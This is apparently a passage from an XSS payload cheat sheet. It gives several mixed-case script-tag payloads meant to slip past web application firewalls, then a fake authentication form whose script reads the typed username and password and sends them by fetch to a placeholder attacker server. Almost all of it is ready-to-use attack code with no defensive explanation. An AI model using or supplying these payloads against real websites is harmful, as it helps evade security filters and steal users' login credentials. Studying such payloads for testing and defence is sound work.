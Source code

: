 ### WAF bypass
```
<sCriPt>alert``</sCRipT>
<sCriPt>eval('alert\x280\x29');</sCRipT>
<sCriPt>setTimeout('alert\x280\x29', 0);</sCRipT>
<sCriPt>Function('alert\x280\x29')();</sCRipT>
<sCriPt>window.location='javascript:alert(0)';</sCRipT>
```

### Fake authentication form sending credentials in keylogger mode

    <input type="text" name="username" id="username" /><input type="password" name="password" id="password" /><script>function sleep(ms){return new Promise(r => setTimeout(r,ms));}sleep(3000).then(()=> {var user =document.getElementById('username').value;var pass = document.getElementById('password').value;var user_pass = user+"_"+pass;fetch("https://[YOUR_SERVER]?u="+user_pass);});</script>
